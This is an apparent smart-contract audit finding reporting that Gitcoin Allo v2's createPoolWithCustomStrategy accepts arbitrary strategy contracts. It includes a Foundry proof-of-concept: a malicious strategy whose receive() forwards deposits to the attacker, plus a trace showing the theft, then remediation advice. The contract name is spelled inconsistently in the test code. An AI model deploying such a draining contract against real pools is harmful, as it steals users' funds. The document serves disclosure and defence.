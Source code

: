 Polished Cyan Porpoise

high

# Adversary can steal  99% of  the depositor funds by deploying  a malicious custom Strategy

Adversary can create a malicious pool with a `customStrategy ` where users can fund into it , this  will allow the adversary to 
directly steal user funds. 


## Vulnerability Detail

Once a user creates a profile , a member of the profile or the profile owner can create a pool with a strategy,
So an  adversary  can create a custom Strategy by passing a malicious strategy address to `allo::createPoolWithCustomStrategy()`
 Check is `if (_isCloneableStrategy(_strategy)) revert IS_APPROVED_STRATEGY();` so it is not true  therefore we can create a custom strategy passing  any address we like ,   

Consider  a scenario ,
1. Alice  wants to fund a pool . 
2. Adversary  creates a  custom Strategy pool  with a malicious  intention.  
3. Adversary  promotes the pool by impersonating the protocol brand saying fund the pool with this `pool_id` 
4.  Alice  interact with the frond-end to fund the pool with `pool _id`, this will result in immediate loss of  funds  ,creating  a bad reputation to the protocol.
 Also all of the functions which calls  the specific `strategyPool` through `Allo.sol` is now in control of adversary .He can implement what ever to do with it.   


`forge test --match-path  ./test/foundry/core/Allo.sol --match-test test_With_MaliciousStrategy  -vvvv`


```diff

+ StratergyCustom st ;
+ address adversary = makeAddr("Adversary");
        function setUp() public {

            __RegistrySetupFull();
            __AlloSetup(address(registry()));
            token = new MockERC20();
            token.mint(local(), mintAmount);
            token.mint(allo_owner(), mintAmount);
            token.mint(pool_admin(), mintAmount);
            token.approve(address(allo()), mintAmount);

            vm.prank(pool_admin());
            token.approve(address(allo()), mintAmount);

            strategy = address(new MockStrategy(address(allo())));

            vm.startPrank(allo_owner());
            allo().transferOwnership(local());
            vm.stopPrank();
+ vm.startPrank(adversary);   
+st = new StratergyCustom();
+ vm.stopPrank();
        }



 function test_With_MaliciousStrategy() public {
address user = makeAddr("user");
 vm.deal(user , 1 ether);
        address[] memory poolManagers = new address[](1);
        poolManagers[0] = address(1);
        vm.prank(pool_admin());
+       allo().createPoolWithCustomStrategy(poolProfile_id(), address(st), "0x", NATIVE, 0, metadata, poolManagers);
     
     vm.prank(user);
    allo().fundPool{value :  1 ether}(st.getPoolId(), 1 ether);
    }



contract StrategyCustom {
    event xp(string);
address immutable adversary;
// address native = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
constructor () {
    adversary = msg.sender;
}

uint id;
function initialize(uint256 _id , bytes memory  _initStrategyData) public {
id = _id;
}
function getPoolId() external view returns(uint) {
return id;
}

function getAllo() external view returns (address) {
return address(msg.sender);
}

function increasePoolAmount(uint256 wut) external {
emit xp("Respect++");
}
receive() external payable {
 (bool s, ) =adversary.call{value : address(this).balance}("");
require(s);
}

}

```

```bash
 ├─ [9479] StratergyCustom::receive{value: 990000000000000000}() 
    │   │   ├─ [0] Adversary::fallback{value: 990000000000000000}() 
    │   │   │   └─ ← ()
```
We were able to steal 99 % of ETH a user deposited to the   pool and rest is paid as the protocol  fee  to the `Treasury`

## Impact

Result in loss of user funds /tokens

## Code Snippet

```js

 function createPoolWithCustomStrategy(
        bytes32 _profileId,
        address _strategy,
        bytes memory _initStrategyData,
        address _token,
        uint256 _amount,
        Metadata memory _metadata,
        address[] memory _managers
    ) external payable returns (uint256 poolId) {
        // Revert if the strategy address passed is the zero address with 'ZERO_ADDRESS()'
        if (_strategy == address(0)) revert ZERO_ADDRESS();

        // Revert if we already have this strategy in our cloneable mapping with 'IS_APPROVED_STRATEGY()' (only non-cloneable strategies can be used)
        if (_isCloneableStrategy(_strategy)) revert IS_APPROVED_STRATEGY();


```

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/Allo.sol#L146

## Tool used

Manual Review

## Recommendation

Consider introducing a validation method to validate custom strategies  before a user creates a pool using a custom strategy.
Something like validating a governance proposal. Also remember an attacker can still create metamorphic contracts just like 
the tornando cash governance attack vector.       

```diff
+   if(!_isApprovedCustomStratergy(address(stratergy))) revert IS_APPROVED_CUSTOM_STRATEGY();

or else you can set in allo::createPoolWithCustomStrategy() as it is,

-   if (_isCloneableStrategy(_strategy)) revert IS_APPROVED_STRATEGY();
+   if (!_isCloneableStrategy(_strategy)) revert IS_APPROVED_STRATEGY();

```
Also Consider adding a `WARNING` on the front end if users try to interact with  `customStrategies`  created by arbitrary users  other than using default Clonable Strategies provided by the protocol 